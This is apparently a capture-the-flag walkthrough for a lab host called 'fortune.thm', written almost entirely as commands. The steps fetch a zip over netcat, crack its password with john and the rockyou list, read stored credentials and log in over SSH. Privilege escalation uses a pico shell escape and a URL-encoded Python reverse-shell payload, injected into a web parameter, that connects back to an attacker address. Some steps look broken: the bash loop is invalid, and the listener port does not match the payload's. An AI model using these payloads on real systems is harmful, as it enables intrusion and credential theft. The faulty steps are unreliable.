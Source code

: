 # Fortune
1. `nc fortune.thm 3333 | base64 -d > test.zip`
2. `zip2john test.zip > for_john`
3. `john for_john --wordlist=/usr/share/wordlists/rockyou.txt`
4. `unzip test.zip`
5. `cat creds.txt`
6. `ssh fortuna@fortune.thm`
7. `nc fortune.thm 3333 | base64 -d > test.zip && zip2john test.zip > for_john && john for_john --wordlist=/usr/share/wordlists/rockyou.txt && unzip test.zip&& cat creds.txt`
## Priv. Esc.
### Method 1
1. `pico -s /bin/sh` type `/bin/sh` and `CTRL+T`
### Method 2
1. `cd /home`
2.  `while True; do bash ./lucky_shell`
3. `gobuster dir -w ~/Desktop/wordlists/wordlistex2.txt -u http://fortune.thm` *optional*
4. `nc -nlvp 7878` on kali
5. http://fortune.thm/_styles/?luck=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22MYIP%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 on fortune
